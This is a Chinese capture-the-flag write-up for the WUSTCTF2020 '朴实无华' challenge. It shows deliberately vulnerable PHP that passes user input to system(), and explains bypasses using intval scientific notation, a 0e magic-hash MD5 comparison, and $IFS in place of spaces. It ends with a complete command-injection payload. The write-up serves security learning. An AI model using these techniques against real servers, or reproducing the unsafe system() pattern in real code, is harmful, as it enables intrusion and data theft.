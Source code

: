 # \[WUSTCTF2020]朴实无华

## \[WUSTCTF2020]朴实无华

## 考点

* robots.txt泄露
* intval绕过
* PHP使用0e开头的数字md5值仍以0e开头绕过md5限制
* 命令执行`${IFS}`或者`$IFS$9`绕过空格

## wp

robots.txt发现存在/fAke\_f1agggg.php，访问在返回头给了提示，fl4g.php

![](<../../.gitbook/assets/image (26).png>)

访问后给了代码

```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);

//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}
//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?> 
```

level 1要绕过intval函数，该函数用于获取变量的整数值，例如10e5就会获取10，4.5获取4，1e10就会获取1410065408，使用<mark style="color:orange;">`num=3e10`</mark>绕过

level 2要绕md5，利用PHP弱类型绕过，使用`0e215962017`绕过，`0e215962017`的md5值为`0e291242476940776845150308577824`

level 3要绕命令执行，过滤空格和cat，使用`$IFS$9`或者`${IFS}` 代替空格，`cat`可以换成`more`，`tac`

payload：`?num=3e10&md5=0e215962017&get_flag=tac${IFS}*`
